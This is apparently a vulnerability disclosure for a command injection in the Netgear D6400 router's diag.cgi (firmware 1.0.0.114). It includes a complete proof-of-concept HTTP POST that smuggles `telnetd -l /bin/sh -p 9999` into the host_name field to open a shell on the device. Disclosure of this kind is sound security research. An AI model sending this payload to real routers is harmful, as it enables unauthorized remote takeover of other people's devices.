

# Netgear Vulnerability

Vendor:Netgear 

Product:D6400

Version:1.0.0.114

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Netgear router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `diag.cgi` function, `host_name` is directly passed by the attacker, so we can control the `host_name` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `host_name` as **`telnetd -l /bin/sh -p 9999`** , and the router will excute it,such as:

```http
POST /diag.cgi?id=9d5f365e5fd3b51328eda5222af8abf2cfbe4b559d23d0fac3f93a9ebf61d8bc HTTP/1.1
Host: 10.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://10.0.0.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://10.0.0.1/DIAG_diag.htm
Cookie: XSRF_TOKEN=1222440606
Upgrade-Insecure-Requests: 1

lookup=Lookup&IPAddr1=192&IPAddr2=168&IPAddr3=1&IPAddr4=1&host_name=`telnetd -l /bin/sh -p 9999`&ping_IPAddr=
```


## Result

Get a shell!

<div  align="center"></div>
